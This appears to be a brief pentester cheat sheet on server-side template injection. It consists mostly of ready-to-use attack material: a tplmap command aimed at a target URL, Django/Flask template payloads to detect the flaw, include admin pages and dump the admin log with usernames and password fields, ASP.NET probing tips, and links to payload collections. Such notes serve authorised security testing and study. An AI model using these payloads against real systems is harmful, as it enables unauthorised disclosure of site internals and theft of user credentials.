 # SSTI

## Tools

```
# https://github.com/epinna/tplmap
tplmap.py -u 'http://www.target.com/page?name=John'
```

## Python Django/Flask

Detection:

```
{% if 'str' = 'str' %} vuln {% endif %}
{% debug %}
```

Disclose pages:

```
{% include 'admin/base.html' %}
```

Disclose log table:

```
{% load log %}{% get_admin_log 10 as log %}{% for e in log %}
{{e.user.get_username}} : {{e.user.password}}{% endfor %}
```

## ASP/APS.NET/ASPX

- % is a key character
- If `<%` returns 500, try `<%= 7*7 %>`

## Tips

Try to SSTI with the fuzz string provided in cobalt.io blog post refered below

| URL                                                                                                                                                                  | Description                |
| -------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------- |
| [https://github.com/DiogoMRSilva/websitesVulnerableToSSTI](https://github.com/DiogoMRSilva/websitesVulnerableToSSTI)                                                 | Engines vulnerable to SSTI |
| [https://github.com/payloadbox/ssti-payloads](https://github.com/payloadbox/ssti-payloads)                                                                           | Payloads                   |
| [https://cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti](https://cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti) | Blog about SSTI            |